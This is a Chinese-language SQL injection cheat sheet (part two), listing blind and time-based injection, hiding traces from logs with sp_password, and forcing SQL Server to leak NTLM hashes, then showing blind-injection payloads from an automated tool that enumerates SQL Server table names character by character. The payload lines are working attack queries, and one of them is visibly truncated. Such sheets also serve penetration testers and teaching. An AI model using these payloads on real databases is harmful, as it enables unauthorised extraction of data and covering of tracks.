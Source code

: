 # SQL注入速查表（下）与Oracle注入速查表

一、SQL注入速查表（下）
=============

* * *

### 0x00 目录

1.  盲注
    1.  关于盲注
    2.  实战中的盲注实例
2.  延时盲注
    1.  `WAITFOR DELAY [time]`(S)
    2.  实例
    3.  `BENCHMARK()`(M)
    4.  实例
    5.  `pg_sleep(seconds)`(P)
3.  掩盖痕迹
    1.  `-sp_password log bypass`(S)
4.  注入测试
5.  一些其他的MySQL笔记
    1.  MySQL中好用的函数
6.  SQL注入的高级使用
    1.  强制SQL Server来得到NTLM哈希
    2.  Bulk insert UNC共享文件 (S)

### 0x01 盲注

#### 关于盲注

一个经过完整而优秀开发的应用一般来说你是**看不到错误提示的**，所以你是没办法从`Union`攻击和错误中提取出数据的

**一般盲注**，你不能在页面中看到响应，但是你依然能同个HTTP状态码得知查询的结果

**完全盲注**，你无论怎么输入都完全看不到任何变化。你只能通过日志或者其它什么的来注入。虽然不怎么常见。

在一般盲注下你能够使用**If语句**或者**WHERE查询注入\***|(一般来说比较简单)*，在完全盲注下你需要使用一些延时函数并分析响应时间。为此在`SQL Server`中你需要使用`WAIT FOR DELAY '0:0:10'`，在MySQL中使用`BENCHMARK()`，在`PostgreSQL`中使用`pg_sleep(10)`，以及在`ORACLE`中的一些`PL/SQL小技巧`。

#### 实战中的盲注实例

以下的输出来自一个真实的私人盲注工具在测试一个`SQL Server`后端应用并且遍历表名这些请求完成了第一个表的第一个字符。由于是自动化攻击，SQL查询比实际需求稍微复杂一点。其中我们使用了二分搜索来探测字符的ASCII码。

**TRUE**和**FALSE**标志代表了查询返回了`true`或`false`

```
TRUE : SELECT ID, Username, Email FROM [User]WHERE ID = 1 AND ISNULL(ASCII(SUBSTRING((SELECT TOP 1 name FROM sysObjects WHERE xtYpe=0x55 AND name NOT IN(SELECT TOP 0 name FROM sysObjects WHERE xtYpe=0x55)),1,1)),0)>78-- 

FALSE : SELECT ID, Username, Email FROM [User]WHERE ID = 1 AND ISNULL(ASCII(SUBSTRING((SELECT TOP 1 name FROM sysObjects WHERE xtYpe=0x55 AND name NOT IN(SELECT TOP 0 name FROM sysObjects WHERE xtYpe=0x55)),1,1)),0)>103-- 

TRUE : SELECT ID, Username, Email FROM [User]WHERE ID = 1 AND ISNULL(ASCII(SUBSTRING((SELECT TOP 1 name FROM sysObjects WHERE xtYpe=0x55 AND name NOT IN(SELECT TOP 0 name FROM sysObjects WHERE xtYpe=0x55)),1,1)),0) 

FALSE : SELECT ID, Username, Email FROM [User]WHERE ID = 1 AND ISNULL(ASCII(SUBSTRING((SELECT TOP 1 name FROM sysObjects WHERE xtYpe=0x55 AND name NOT IN(SELECT TOP 0 name FROM sysObjects WHERE xtYpe=0x55)),1,1)),0)>89-- 

```